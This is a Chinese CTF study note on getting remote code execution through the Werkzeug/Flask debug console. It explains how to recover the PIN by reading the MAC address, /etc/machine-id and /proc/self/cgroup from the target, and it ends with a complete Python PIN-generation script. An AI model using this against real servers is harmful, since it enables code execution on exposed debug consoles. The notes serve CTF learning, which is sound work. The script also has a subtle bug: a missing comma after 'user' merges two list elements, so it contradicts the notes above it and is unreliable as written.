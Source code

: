 tags:: CTFWEB/RCE, werkzeug

- https://ctf.anzu.link/pages/204626/
- # 原理
	- 读取到某些敏感信息后，利用敏感信息算出和目标同样的PIN, 然后使用PIN控制flask执行命令
	- 有时没开debug模式，也可以通过`/console`看到终端
	- 貌似对werkzeug通用
- # PIN生成方法
	- PIN生成代码在`/home/user/.local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`这个文件内
	- 需要获取到`probably_public_bits`和`private_bits`两个数组内的内容
	- `probably_public_bits`
		- `[0]`: 用户名
		- `[1]`: modname, 不魔改的话就是`flask.app`
		- `[2]`: `getattr(app, '__name__', getattr(app.__class__, '__name__'))`的运行结果，一般是`Flask`
		- `[3]`: app类的存储目录
			- 类似于`/home/user/.local/lib/python3.10/site-packages/flask/app.py`
	- `private_bits`
		- `[0]`: 十进制表示的服务器MAC
			- 可以用`int("00:16:3e:5e:6c:00".replace(":", ""), 16)`转换
			- 一般在对应网卡（如 eth0）的文件中：`/sys/class/net/eth0/address`
		- `[1]`: 基于两个文件内容生成，各个OS的生成方法不同，以下是Linux的生成方法：
			- 获取"/etc/machine-id"或"/proc/sys/kernel/random/boot_id"的内容
			- 获取/proc/self/cgroup的内容，然后**把每一行**按照`/`分段，获取最后一段并拼接
			- 拼接上面获得的两段bytes
- # PIN生成脚本
	- 新版flask的生成方法和老版不一样
	- ```python
	  import hashlib
	  from itertools import chain
	  
	  rv, num = None, None
	  
	  probably_public_bits = [
	      'user'# 用户名
	      'flask.app',# modname
	      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	      '/home/user/.local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
	  ]
	  
	  private_bits = [
	      '95535655936',# str(uuid.getnode()),  /sys/class/net/ens33/address
	      '2c2781498c424bcf86b4d5aa3c0d27faapp-glib-codium-1239.scope'# /etc/machine-id的内容+/proc/self/cgroup的结尾
	  ]
	  
	  h = hashlib.sha1()
	  for bit in chain(probably_public_bits, private_bits):
	      if not bit:
	          continue
	      if isinstance(bit, str):
	          bit = bit.encode("utf-8")
	      h.update(bit)
	  h.update(b"cookiesalt")
	  
	  cookie_name = f"__wzd{h.hexdigest()[:20]}"
	  
	  if num is None:
	      h.update(b"pinsalt")
	      num = f"{int(h.hexdigest(), 16):09d}"[:9]
	  
	  if rv is None:
	      for group_size in 5, 4, 3:
	          if len(num) % group_size == 0:
	              rv = "-".join(
	                  num[x : x + group_size].rjust(group_size, "0")
	                  for x in range(0, len(num), group_size)
	              )
	              break
	      else:
	          rv = num
	  
	  print(rv)
	  
	  ```